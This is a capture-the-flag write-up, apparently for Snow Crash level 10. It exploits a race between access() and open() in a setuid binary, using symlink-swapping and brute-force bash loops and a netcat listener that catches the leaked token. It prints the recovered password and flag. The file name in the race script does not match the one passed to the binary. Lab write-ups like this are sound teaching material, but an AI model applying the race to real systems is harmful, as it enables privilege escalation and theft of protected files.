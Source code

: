 ## Level 10

We can see once again two files `token` and `level10`.

Obviously we can't read token, and we can execute `level10` passing it a file and an ip address!

As we can see in the [decompiled level10](./level10_decomp.c), it sends the content of the file we pass to the ip address through a socket.

We can use `nc` to capture this traffic. More specificaly, we can use `nc -l -k <ip>` so that it keeps the connection alive while we spam it.

## Exploit

Speaking of spamming, the important part here are two syscalls in the executable:

```c
	iVar2 = access((char *)in_stack_00000008[1],4);
	// more blabla and checks
	iVar3 = open(pcVar6,0);
```

Access checks if the user executing the program could read the content of the file we pass as an argument, and open obviously tries to open it.
However, the fact that they are separated calls means one thing, there is a timing during which we can modify the file between `access` and `open`, abusing the first permission check.

### Our objective

We want the executable to check access on a file we created, so that we pass the check, then create a symlink from this file to the token for which we don't have access.

### How ?

Simply with two bash scripts:

The first one will take care of the file swapping thingy as such:

```bash
while [ 1 ]
do
        touch /var/crash/swap
        rm -rf /var/crash/swap
        ln -s ~/token /var/crash/swap
        rm -rf /var/crash/swap
done
```

And the second one which will spam our executable with the file we create until we have a wonderful result:

```bash
while [ 1 ]
do
        ./level10 /var/crash/testouille 10.14.6.1
done
```

It's simply bruteforcing and we can see the result on nc when we launch both scripts:

```bash
~/Documents/42/snow_crash/level10/res (main*) » nc -l -k 10.14.6.1
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
```

And that's how we can trick our program to get read a new file between two calls!

## Password

woupa2yuojeeaaed06riuj63c

## Token

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ 
```
